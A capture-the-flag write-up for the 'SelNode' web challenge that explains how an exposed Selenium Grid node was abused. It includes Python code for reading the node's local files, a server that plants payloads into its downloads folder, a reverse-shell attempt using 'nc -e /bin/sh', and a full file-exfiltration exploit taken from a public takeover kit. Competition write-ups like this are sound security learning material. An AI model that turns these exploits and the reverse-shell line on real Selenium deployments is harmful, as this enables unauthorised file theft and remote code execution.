


# Web - SelNode (460)

## Challenge

We are given a Selenium Grid website, which is used for allowing other users to connect to the remote Webdriver and do typical Selenium stuff, like web scraping or any kind of automated website activity.

It was pretty difficult to figure out how to get stuff working haha and encountered plenty of errors just connecting.

The basic way of interacting with the challenge is to connect a remote webdriver instance to the challenge server and do stuff with it, like going to various websites, or even reading local files using the `file://` protocol.

This is the base code of interacting with the server

```python
from time import sleep
from selenium import webdriver


options = webdriver.ChromeOptions()
options.add_argument("--no-sandbox"); #this line will save you a very time-wasting error
driver = webdriver.Remote(
   command_executor='http://challs.nusgreyhats.org:12323/wd/hub',
   options=options,
)
driver.get("file:///")
print(driver.page_source)
with open('a.html', 'w') as f:
    f.write(driver.page_source)
driver.close()
```

With this we can get read files on the system, but there's a problem. In order to read the flag, we need to run the `/flag` binary



We can read regular text files on the system but navigating to the path of the binary will prompt the browser to download the file instead. Interestingly, we can manipulate the default download directory of the remote web driver, so I was able to move binary files around the system (not that it helped), by using

```python
preferences = {
    "download.default_directory": '/home/seluser/Downloads',
    "directory_upgrade": True,
    "safebrowsing.enabled": True
}
options.add_experimental_option("prefs", preferences)
```

Here's a cheeky screenshot of the files I moved around to the downloads directory


But the problem is that I still couldn't run or downlaod the binary.

I tried some various other methods, and was even able to get the server to download my own payloads into their system (as can be seen from the `payload` and `Unconfirmed Chrome Downloads` in the above screenshot). (CVE-2016-10624)

This was done by running a `http` server with `ngrok` and getting the webdriver to visit your server

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

local = '.'
suffix = '/payload'
download = f"<a href='{local+suffix}' download='payload' id='raw-url'>Download</a>"
class S(BaseHTTPRequestHandler):
    def _set_headers(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()

    def _set_headers_b(self):
        self.send_response(200)
        self.send_header("Content-type", "binary/octet-stream")
        self.end_headers()

    def _html(self, message):
        """This just generates an HTML document that includes `message`
        in the body. Override, or re-write this do do more interesting stuff.
        """
        content = f"<html><body><h1>{message}</h1></body></html>"
        return content.encode("utf8")  # NOTE: must return a bytes object!

    def do_GET(self):

        if self.path == '/download':
            self._set_headers()
            self.wfile.write(self._html(download))
        if self.path == '/payload':
            self._set_headers_b()
            with open('./payload.sh', 'rb') as file:
                self.wfile.write(file.read()) # Read the file and send the contents

def run(server_class=HTTPServer, handler_class=S, addr="127.0.0.1", port=8000):
    server_address = (addr, port)
    httpd = server_class(server_address, handler_class)

    print(f"Starting httpd server on {addr}:{port}")
    httpd.serve_forever()
run()
```

After getting the payload file into the `/Downloads` directory, the exploit was meant to trigger the binary payload using the `binary_location` parameter, which is typically used for running the chrome-driver from non-standard locations. However it kept erroring out and the reverse shell couldn't work (would love to figure out why / how other people managed to get RCE)

```python
options.binary_location = '/home/seluser/Downloads/payload'
```

Other dead ends I tried were

- opening an `xhr` to my server and sending the file over, but couldn't figure out a way to actually reading the actual `flag` binary.
- directly giving myself reverse shell through python

```
options.binary_location = '/usr/bin/python3'
options.args = ["-cimport os;os.system('nc -e /bin/sh $RHOST $RPORT)"]
```

In the end, I just stumbled upon the github repo [here](https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py) that was basically the full exploit. Typically, a browser cannot read local files without user interaction (otherwise all browsers can just read all the files on your local computer), i.e. having the user actually upload their file. However we can mimic all the necessary interaction by creating a file input HTML with id of `f` on the page and using `driver.find_element_by_id('f').send_keys(remote_file)` where `remote_file` is the file we would like to read. From there we can just download the file off the server. I was too lazy to actually run the binary (wasn't on a Linux machine) , so I just ran `strings ans | grep grey` to get the flag

## Solution (literally copy paste from github)

```python
# https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py
import base64, getopt, sys
from selenium import webdriver
from selenium.webdriver.remote.file_detector import UselessFileDetector

def get_file_contents(driver, remote_file):
    " A simple file input plus some FileReader js to store file contents in 'inf' "
    decoded_contents = None
    try:
        driver.get('data:text/html;charset=utf-8,<html><input id=f type=file onchange="rf(event)"><script>var inf; var rf = function(e) { var inp = e.target; var read = new FileReader(); read.onload = function(){inf = read.result;}; read.readAsDataURL(inp.files[0]);}</script></html>')
        driver.find_element_by_id('f').send_keys(remote_file) # Load local file into input field (and therefor "inf")
        js_return = driver.execute_script('return(inf)')   # Dump the contents of "inf"
        if js_return:
            try:
                decoded_contents = base64.b64decode(js_return.split(',')[1])
            except:
                print('Cannot Decode: %s' % js_return)
        else:
            print('Cannot Read: %s' % remote_file)
    except:
        print('Doesnt Exist: %s' % remote_file)
    return decoded_contents

if __name__ == '__main__':
    hub_url, remote_file, local_file, browser = 'http://challs.nusgreyhats.org:12323/wd/hub', '/flag', './ans', 'chrome'

    options = webdriver.ChromeOptions()
    options.add_argument("--no-sandbox");
    preferences = {"download.default_directory": '/home/seluser/Downloads' ,
                    "directory_upgrade": True,
                    "safebrowsing.enabled": True }
    options.add_experimental_option("prefs", preferences)
    driver = webdriver.Remote( command_executor=hub_url, options=options )
    driver.file_detector = UselessFileDetector()

    try:
        file_contents = get_file_contents(driver, remote_file)
        if local_file:
            f = open(local_file, 'w+b')
            f.write(file_contents)
            f.close()
        else:
            print(file_contents.decode('ascii'))
    finally:
        driver.quit()
    sys.exit(0)
```

## Flag

```
grey{publ1c_53l3n1um_n0d3_15_50_d4n63r0u5_8609b8f4caa2c513}
```

## Useful Resource

- https://nutcrackerssecurity.github.io/selenium.html
- https://nvd.nist.gov/vuln/detail/CVE-2016-10624
- https://github.com/JonStratton/selenium-node-takeover-kit/blob/master/examples/selenium_node_download.py
